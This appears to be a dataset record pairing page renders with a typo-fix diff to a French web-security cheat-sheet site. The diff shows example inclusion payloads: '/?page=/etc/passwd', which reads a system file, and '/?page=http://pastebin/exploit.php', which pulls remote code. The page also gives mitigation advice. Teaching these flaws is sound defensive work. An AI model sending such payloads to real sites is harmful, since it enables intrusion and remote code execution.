

Before and after one commit to MalikSploit/SecWeb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 5180-5393 px from the top of the page, 163-803 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Correction typo

```diff
--- a/index.html
+++ b/index.html
@@ -1259,7 +1259,7 @@ Cache-Control: no-cache
 <p><strong>LFI</strong>: Local file inclusion, souvent appelé directory traversal</p>
 <p><strong>LFI Exploit</strong>: <code>/?page=/etc/passwd</code></p>
 <p><strong>RFI</strong>: Remote file inclusion, inclusion de code arbitraire</p>
-<p><strong>LFI Exploit</strong>: <code>/?page=http://pastebin/exploit.php</code></p>
+<p><strong>RFI Exploit</strong>: <code>/?page=http://pastebin/exploit.php</code></p>
 <p><strong>Se préserver</strong>: </p>
 <ul>
 <li>Déscativer <code>allow_url_include</code></li>
```
